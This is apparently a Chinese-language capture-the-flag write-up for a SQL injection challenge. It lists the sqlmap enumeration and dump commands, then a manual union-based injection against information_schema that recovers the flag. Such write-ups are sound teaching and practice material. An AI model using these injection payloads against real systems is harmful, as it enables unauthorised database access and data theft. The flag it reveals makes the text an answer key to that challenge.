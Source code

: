 ## 看起来有点简单!
Sql 注入题,直接用 Sqlmap 就能搞定

1. `--current-db` 发现库名为 my_db
2. `-D my_db --tables` 发现表名为 thiskey
3. `-D my_db -T thiskey --columns` 发现字段名为 k0y
4. `-D my_db -T thiskey -C k0y --dump` 得到Flag :  whatiMyD91dump

手工注入: 

1. `id=1'` 报错发现数据库类型为 MySQL 
2. `id=1 and 1=1` 与 `id=1 and 1=2` 回显不同,判断存在注入点
3. `id=1 order by 1` 3 的时候报错,说明字段数为 2
4. `id=1 union select 1,schema_name  from information_schema.schemata` 查询数据库名称发现 my_db 和 test 两个数据库
5. `id=1 union select 1,table_name from information_schema.tables where table_schema=my_db` 查询数据库中的表名 thiskey
6. `id=1 union select 1,column_name from information_schema.columns where table_schema='my_db'` 查询表中字段名,发现 k0y
7. `id=1 union select 1,k0y from thiskey` 得到Flag : whatiMyD91dump

<!--stackedit_data:
eyJoaXN0b3J5IjpbLTYxOTMwODI1NF19
-->